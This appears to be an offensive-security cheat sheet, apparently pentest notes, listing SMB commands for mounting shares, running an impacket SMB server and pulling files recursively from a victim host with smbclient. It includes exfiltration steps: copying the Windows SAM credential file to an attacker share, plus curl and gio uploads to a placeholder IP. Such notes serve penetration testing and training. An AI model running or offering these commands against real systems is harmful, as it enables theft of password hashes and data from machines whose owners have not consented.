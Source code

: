 # SMB Shares

##### mount target share
```
mkdir /mnt/[SHARE]
```
```
sudo mount -t cifs -o vers=1.0 //[IP]/[SHARE] /mnt/[SHARE]
```

##### Create an SMB share (Linux)
```
sudo impacket-smbserver [SHARE_NAME] [SHARE_LOCATION]
```

#### exfil to your share
```
copy C:\Windows\Repair\SAM \\[IP]\[SHARE]\[FILE.EXT]
```

### curl upload
```sh
curl --upload-file [LOCAL_PATH]/[FILE] -u [DOMAIN\USER] smb://[IP]/[SHARE]/
```

Get all files from SMB share with `smbclient`:
```sh
smbclient //$VICTIM_IP/SHARENAME
> RECURSE ON
> PROMPT OFF
> mget *
```

### GIO
##### List GIO Shares
```
gio mount -l
```
##### Mount the remote share
```
gio mount smb://[IP]/[SHARE]/
```
##### Copy the file
```
gio copy /[PATH]/[FILE] smb://[IP]/[SHARE]/[FILE]
```
